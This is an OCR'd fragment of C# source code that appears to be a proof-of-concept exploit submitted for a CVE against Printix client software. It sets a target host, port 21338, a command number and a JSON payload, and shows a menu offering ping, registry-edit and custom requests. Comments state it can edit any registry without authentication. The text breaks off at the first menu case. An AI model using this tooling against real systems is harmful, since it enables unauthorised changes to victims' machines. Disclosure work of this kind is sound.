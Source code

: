                     }
            }
            return array;
        }
    }
    class CVESUBMISSION
    {
        static void Main(string[] args)
        {
        FORCERESTART:
            try
            {

                //Edit any registry without auth:
                //Use command 49, use the code provided on the desktop...
                //This modifies it directly, so no specific username is needed. :D

                //The command parameter, a list of commands is below.
                int command = 43;

                //To force the user to input variables or not.
                bool forceCustomInput = false;

                //The data to send, this isn't flexible and should be used only for specific examples.
                //Try to keep above 4 characters if you're just shoving things into the command.
                string data = "{\"profileID\":1,\"result\":true}";

                //The username to use.
                //This is to fulfill the requriements whilst in development mode.
                DefaultValues.CurrentSessName = "printixMDNs7914";

                //The host to connect to. DEFAULT= "localhost"
                string host = "192.168.1.29";

            //                                Configuration Above

            InvalidInputLabel:
                Console.Clear();
                Console.WriteLine("Please select the certificate you want to use with port 21338.");
                //Deprecated, certificates are no longer needed to verify, as clientside only uses the self-signed certificates now.
                Console.WriteLine("Already selected, client authentication isn't needed.");

                Console.WriteLine(" /───────────────────────────\\ ");
                Console.WriteLine("\nWhat would you like to do?");
                Console.WriteLine("\n    1. Send Ping Request");
                Console.WriteLine("    2. Send Registry Edit Request");
                Console.WriteLine("    3. Send Custom Request");
                Console.WriteLine("    4. Experimental Mode (Beta)\n");
                Console.Write("I choose option # ");

                try
                {
                    switch (int.Parse(Console.ReadLine().ToLower()))
                    {
                        case (1):
                            Session session = new Session(2);
